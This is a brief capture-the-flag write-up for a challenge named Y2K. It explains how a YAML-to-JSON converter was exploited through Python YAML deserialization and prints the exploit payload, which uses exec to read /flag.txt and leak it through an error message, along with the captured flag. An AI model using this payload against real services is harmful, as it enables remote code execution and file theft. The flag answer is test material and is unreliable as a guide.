


Challenge:



We are challenged with figuring out the real reason behind Y2K.

Based on the web page we arrive at, we have a Yaml to Json converter.  After doing some research, I found a deserialiation attack on [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization).  I attempted to read the file directly, which caused an access denied.  Ultimately, after trial and error, I found I was able to trick the system into giving me the flag when raising an error.

```
!!python/object/new:tuple  
- !!python/object/new:map  
  - !!python/name:exec  
  - [ 'raise ValueError(getattr(open("/flag\x2etxt"), "read")())' ]  
```



Flag: ```flag{b20870a1955ac22377045e3b2dcb832a}```